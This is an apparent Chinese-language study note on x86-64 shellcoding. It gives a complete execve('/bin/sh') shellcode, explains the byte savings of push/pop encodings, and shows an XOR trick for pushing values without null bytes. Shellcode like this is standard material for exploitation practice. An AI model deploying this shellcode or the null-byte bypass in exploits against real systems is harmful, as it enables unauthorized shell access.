 使用 push,pop完成操作占用空间更小, mov 0x3b: `48c7c03b000000`, push pop: `6a3b58`

```sh
mov rax, 0x68732f6e69622f	/* /bin/sh\x00 */
push rax
push rsp
pop rdi			/* rdi -> /bin/sh */
xor esi, esi	/* rsi = 0 */
xor edx, edx	/* rdx = 0 */
push 0x3b
pop rax
syscall
```


## 绕过


```sh
# 把 0x6873 放到栈上
push 0x1010101 ^ 0x6873
xor dword ptr [rsp], 0x1010101
```
## 但是直接push一个值到栈上要注意：

push 只能push一个32位数，超过32位不能编译（起码用pwntools的asm是这样子）

push 超过一个字节的数，会自动补全成32位，比如push 0x6873，就会编译为 hsh\x00\x00

但是如果只是push一个字节，就会编译为2个字节，比如push 0x8，机器码为 j\x08

